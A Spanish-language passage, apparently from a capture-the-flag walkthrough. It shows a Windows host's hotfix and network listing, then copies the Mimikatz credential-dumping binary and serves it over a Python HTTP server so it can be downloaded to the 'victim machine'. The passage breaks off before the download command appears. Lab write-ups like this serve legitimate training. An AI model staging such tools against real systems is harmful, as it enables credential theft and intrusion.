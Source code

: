 ```
                           [153]: KB3137061
                           [154]: KB3138378
                           [155]: KB3138612
                           [156]: KB3138910
                           [157]: KB3139398
                           [158]: KB3139914
                           [159]: KB3140245
                           [160]: KB3147071
                           [161]: KB3150220
                           [162]: KB3155178
                           [163]: KB3156016
                           [164]: KB3156019
                           [165]: KB3159398
                           [166]: KB3161102
                           [167]: KB3161949
                           [168]: KB3161958
                           [169]: KB3170455
                           [170]: KB3170735
                           [171]: KB3172605
                           [172]: KB3177467
                           [173]: KB3179573
                           [174]: KB3181988
                           [175]: KB3184143
                           [176]: KB4014504
                           [177]: KB976902
                           [178]: KB982018
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.199.216
                                 [02]: fe80::c9f2:5e32:8b3d:76af
                                 [03]: dead:beef::cc3d:cfc8:2465:b2cb
                                 [04]: dead:beef::c9f2:5e32:8b3d:76af
```

Nos `copiamos` el `binario` de `Mimikatz` en nuestro equipo

```
# locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
# cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

Nos montamos un `servidor http` con `python` donde se encuentra el `binario`

```
# python -m http.server 80
```

`Descargamos` el `binario` en la máquina víctima
